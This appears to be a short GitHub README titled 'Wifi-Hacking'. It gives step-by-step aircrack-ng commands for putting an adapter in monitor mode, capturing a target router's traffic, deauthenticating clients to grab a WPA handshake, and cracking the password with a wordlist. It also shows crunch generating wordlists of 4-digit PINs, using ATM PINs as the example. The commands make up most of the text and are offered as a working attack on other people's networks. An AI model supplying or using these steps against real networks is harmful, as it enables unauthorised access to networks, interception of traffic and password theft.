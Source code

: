 # Wifi-Hacking
This method allows hackers to hijack any packet of data that is being transmitted between a device and a router


Wifi Hacking

Divided into 4 steps:

1. Starting the Monitoring mode on the adapter. -> airmon-ng start wlan0
2. Discovering the available networks: airodump-ng wlan0
3. Performing authentication (Capturing the packets) -> airodump-ng -c 6 -w oneplus --bssid A2:B0:A6:79:E4:8B wlan0
4. Performing De-authentication (Once this is successful we will be able to able to see "WPA Handshake" in above step) -> aireplay-ng -0 0 -a A2:B0:A6:79:E4:8B wlan0 
5. Cracking the password. aircrack-ng -w wordlist.txt kali.cap

Once the password matches we will get the correct password.


Crunch tool comes pre-installed in Kali. 

Command: crunch <min> <max> [options]

  
Example: Creating atm pins, so we know that atm pin is of 4 digits to max and min will be of 4 digits and could be anywhere between 0-9. 
  
So the command will be 
  
"crunch 4 4 0123456789 -o<output file path>"


